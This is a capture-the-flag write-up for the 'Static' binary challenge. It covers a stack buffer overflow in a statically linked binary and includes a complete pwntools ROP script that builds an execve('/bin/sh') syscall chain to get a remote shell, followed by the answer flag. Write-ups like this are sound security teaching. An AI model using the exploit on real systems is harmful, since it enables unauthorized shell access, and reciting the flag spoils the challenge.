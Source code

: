 # Static

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Challenge

Running the binary didn't give much insight as it seems to just read input, so lets do some checks and get into decompiling it.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


```c
void vuln(void)

{
  undefined local_12 [10];
  
  read(0,local_12,256);
  return;
}
```

So again we have a very simple vuln function that has a simple buffer overflow. Now the only real differences on this guy here is that the binary is statically linked and has NX enabled. There is a stack canary but not one that we need to worry about, as shown in the vuln function decompilation.

This was my first time exploiting a statically linked binary like this. I spent a few minutes scratching my head because I knew what statically linked meant but I didn't know how exactly to exploit it. My first thought was to look for `system` in the binary, but it wasnt there. After some googling I quickly came across [this technique](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv). After a little bit of reading I came to an understanding that this was a pretty simple rop challenge that just used what the binary had to offer.

There were three things I needed to achieve: overflowing into the return address, getting `/bin/sh` into writable memory, and then setting up registers for a syscall.

Using `ROPgadget` I was able to pick out some gadgets that would fit my use. They weren't perfect but we made do.

```python
from pwn import *

elf = context.binary = ELF('./static')
#p = process('./static')
p = remote('static.chal.cyberjousting.com', 1350)

#Gadgets
pop_rdi = 0x0000000000401fe0
pop_rsi = 0x00000000004062d8
pop_rax_rdx_rbx = 0x000000000045e466
mov_rax_rdx_pop_rbx = 0x0000000000467180
syscall = 0x0000000000401194
writable_mem = 0x000000000049d000
ret = pop_rdi + 1

rop = p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#Rdi to our string and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

payload = b'A'*10 + rop
p.sendline(payload)
p.interactive()
```

The solve script does exactly that. It gets us into the return address, writes `/bin/sh` into rdx, then movs [rdx] into the rax, then fills the registers with our desired values in order to call `execve`. And after calling we have achieved a shell on the server. 

## Flag

`byuctf{too_many_options_what_do_I_chooooooose}`